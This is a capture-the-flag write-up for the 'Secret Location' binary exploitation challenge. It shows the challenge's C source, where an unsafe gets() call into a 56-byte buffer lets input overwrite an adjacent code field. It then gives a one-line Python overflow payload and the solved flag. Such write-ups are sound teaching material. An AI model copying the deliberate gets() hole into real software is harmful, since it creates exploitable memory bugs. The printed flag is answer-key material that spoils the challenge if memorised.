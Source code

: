 # Secret Location

> Category: Binary Exploitation

> Points: 150

## Challenge Description

> translated: Ante is looking for a location to celebrate his birthday. He is planning to invite over 30 friends and therefore he isn't sure if a location as such exists that isn't booked. After some internet search, he managed to find an ideal restaurant, but it seems that the location is hidden. Can you help Ante find out the location so he could reserve the spots and celebrate his birthday?

> native: Ante traži lokaciju za proslavu svojeg rođendana. Međutim, planira pozvati preko 30 prijatelja pa nije siguran postoji li mjesto koje nije zauzeto, a prima toliki kapacitet ljudi. Nakon mukotrpnog pretraživanja interneta, uspio je pronaći idealan restoran, ali čini se da je lokacija skrivena. Možeš li pomoći Anti da otkrije lokaciju restorana kako bi mogao rezervirati mjesta i proslaviti svoj rođendan?

## Analysis

Let's look at the code again.

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>

#define FLAG_PATH "flag"
#define FLAG_SIZE 200

#define ODGOVOR_MAX 56
#define TOCAN_KOD 0x476b2336
#define KRIVI_KOD 0x4b895433

struct odgovor {
	char odgovor[ODGOVOR_MAX];
	uint32_t tajni_kod;
};

void ispisi_tajne_podatke()
{
	FILE *file;
	char flag[FLAG_SIZE];

	file = fopen(FLAG_PATH, "r");

	fgets(flag, sizeof flag, file);

	fclose(file);

	printf("%s\r\n", flag);
}

int main()
{
	struct odgovor tocan_odgovor, krivi_odgovor;

	tocan_odgovor.tajni_kod = TOCAN_KOD;
	krivi_odgovor.tajni_kod = KRIVI_KOD;
	
	puts("+--------------------------------------------------------------+");
	puts("Mislis da mozes saznati gdje se nalazimo? Testiraj svoje znanje.\r");
	puts("+--------------------------------------------------------------+");
	fflush(stdout);

	gets(krivi_odgovor.odgovor);

	if (krivi_odgovor.tajni_kod == TOCAN_KOD) {
		puts("Tocan odgovor!\r");
		ispisi_tajne_podatke();
	} else {
		puts("Krivi odgovor!\r");
	}

	puts("...\r");
	fflush(stdout);
	getchar();

	return 0;
}

```

Up in the defines, we have the correct code defined as `0x476b2336`. We need to overwrite the wrong_answer structure with the correct code value.

The app takes in an input of `odgovor`. That's a 56 character array.

We can just fill that with random letters or just A.

After that, we will overflow the input value into the secret_code field.

Since we have the hex written here, we can just use the little endian format and get it inside.

That means that we write the hex reversed, in 2-place increments.

The hex from above split: `47 6b 23 36`

We are writing: `\x36 \x23 \x6b \x47`

```py
print("A" * 56 + "\x36\x23\x6b\x47")
```

The result is: `AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA6#kG`

And when we put it into our program we get the solution:

![decrypted](solution.PNG)

## FLAG

> CTF2021[323137855005]